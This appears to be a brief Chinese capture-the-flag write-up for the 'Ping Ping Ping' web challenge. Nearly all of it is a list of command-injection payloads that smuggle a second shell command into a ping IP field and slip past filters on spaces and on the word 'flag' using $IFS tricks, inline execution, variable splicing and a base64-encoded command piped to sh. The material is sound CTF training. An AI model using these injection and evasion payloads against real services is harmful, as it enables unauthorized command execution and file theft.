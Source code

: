 ```yaml
---
title: GXYCTF2019-Ping Ping Ping
category: CTF-Web
date: 2024-2-11
---
```


> source:[https://www.nssctf.cn/problem/1096](https://www.nssctf.cn/problem/1096)

## EXP

- 绕过空格

```cpp
{cat,flag.txt} 

cat${IFS}flag.txt

cat$IFS$9flag.txt
  
cat$IFS$1flag.txt

cat<flag.txt

%09替换

cat<>flag.txt
  
kg=$'\x20flag.txt'&&cat$kg
```

- 读取源码

```cpp
127.0.0.1;cat$IFS$1index.php
```

- 绕过flag

```cpp
内联执行
payload=127.0.0.1;cat$IFS$1`ls`

变量拼接
payload=127.0.0.1;a=ag;cat$IFS$1fl$a.php

base64编码
payload=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```

- 补充

```cpp
引号斜线绕过
fla\g
fla"g

$1 $2 $@绕过
fla$@g fla$1g fla$2g
```

